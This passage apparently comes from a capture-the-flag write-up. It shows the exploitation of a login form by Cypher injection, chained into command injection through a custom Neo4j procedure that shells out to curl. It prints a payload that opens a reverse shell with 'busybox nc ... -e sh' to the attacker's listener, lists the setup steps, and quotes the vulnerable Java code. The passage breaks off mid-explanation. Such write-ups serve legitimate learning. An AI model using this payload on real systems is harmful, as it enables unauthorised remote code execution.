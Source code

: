 
# EXPLOITATION
---

After a while reading the article, I could craft a payload that gives us a reverse shell right to our machine:

```
a' return h.value as a 
UNION 
CALL custom.getUrlStatusCode("http://IP:ServerPort;busybox nc IP NC PORT -e sh;#") 
YIELD statusCode AS a 
RETURN a;//
```


We need to do the following:

1. Set up a server using python at any port, we do this to create a legitimate URL which the server's gonna read.
2. Set up a NC listener at a desired port.
3. Use the payload at the `username` section on the login page.
4. Get our reverse shell.

![[Pasted image 20250313161304.png]]

There we go, but why does this work?

### **How It Works**

#### **1. Cypher Injection (`a' return h.value as a UNION ...`)**

- **Goal**: Break out of the original Cypher query and inject a malicious query.
    
- **Mechanism**:

    - The `a'` closes a string parameter in the original query
        
    - The `UNION` clause merges the original query’s results with the attacker’s injected query. Both must return the same columns (`a` here).

#### **2. Exploiting `custom.getUrlStatusCode` (Command Injection)**

The `CALL` statement invokes the vulnerable Java procedure `custom.getUrlStatusCode`, which is designed to check HTTP status codes but is exploited here to run arbitrary commands:

```java
String[] command = { "/bin/sh", "-c", "curl ... " + url };
Process process = Runtime.getRuntime().exec(command);
```

- **Malicious URL**: `http://IP:SERVERPORT;busybox nc IP NC PORT -e sh;#`
    
    - `;`: Terminates the `curl` command and starts a new shell command.
        